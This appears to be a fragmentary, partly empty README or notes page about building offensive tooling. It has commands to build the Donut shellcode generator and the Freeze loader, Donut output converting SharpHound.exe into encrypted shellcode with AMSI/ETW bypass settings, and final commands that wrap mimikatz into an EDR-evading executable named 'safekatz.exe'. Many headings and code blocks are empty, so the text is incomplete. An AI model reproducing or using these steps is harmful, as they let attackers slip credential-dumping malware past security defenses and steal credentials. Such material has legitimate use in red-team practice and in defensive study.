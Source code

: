 - 
- [References](#references)

-------------------------------------------

## 
```sh
git clone https://github.com/TheWover/donut
cd donut
docker build -t donut .
docker run -it --rm -v "${PWD}:/workdir" donut -h
```

## 
```sh
# sudo apt install gccgo-go
# sudo apt install golang-go
git clone https://github.com/optiv/Freeze
cd Freeze

```

## 
```sh
$ docker run -it --rm -v "${PWD}:/workdir" donut -i SharpHound.exe 

  [ Donut shellcode generator v1 (built Dec 31 2023 07:39:42)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "SharpHound.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : .NET EXE
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : "loader.bin"
  [ Exit          : Thread
```

## 
```sh
$ l
total 4.9M
-rw-r--r-- 1 root root 1.2M Dec 31 15:49 loader.bin
-rw-r--r-- 1 kali kali 1.1M Dec 31 15:44 SharpHound.exe
```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh
./donut -i <Your mimikatz.exe location>
./Freeze -I ../loader.bin -O safekatz.exe
```

# [References](#references-1)

https://medium.com/@agonhysenaj/running-mimikatz-with-havoc-donut-and-freeze-6fd040deea01

https://github.com/optiv/Freeze